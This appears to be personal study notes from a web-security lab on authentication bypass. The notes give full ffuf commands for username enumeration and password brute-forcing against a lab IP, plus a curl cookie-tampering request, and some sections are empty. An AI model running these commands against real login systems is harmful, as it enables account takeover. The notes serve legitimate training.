

# **Authentication Bypass**

---

## **Username Enumeration**

`fuff` : enumeration tool

[Fuff Github]( https://github.com/ffuf/ffuf)

creating a list of valid usernames

exemple of use :

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.131.133/customers/signup -mr "username already exists"
```

- `-w` :  file's location on the computer that contains the list
- `-X` : request method to use
- `-d` : specifies the data the FUZZ word will be replaced by the word in the list
- `-H` : add additional headers
- `-u` : url
- `-mr` : text we are looking for to validate we've found a valid output.

---

## **Brute Force**

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.131.133/customers/login -fc 200
```

-fc argument to check for an HTTP status code other than 200.

---

## **Logic Flaw**



---

## **Cookie Tampering**

he contents of some cookies can be in plain text, and it is obvious what they do.

```bash
curl -H "Cookie: logged_in=true; admin=true" http://10.10.131.133/cookie-test
```

### **Hashing**

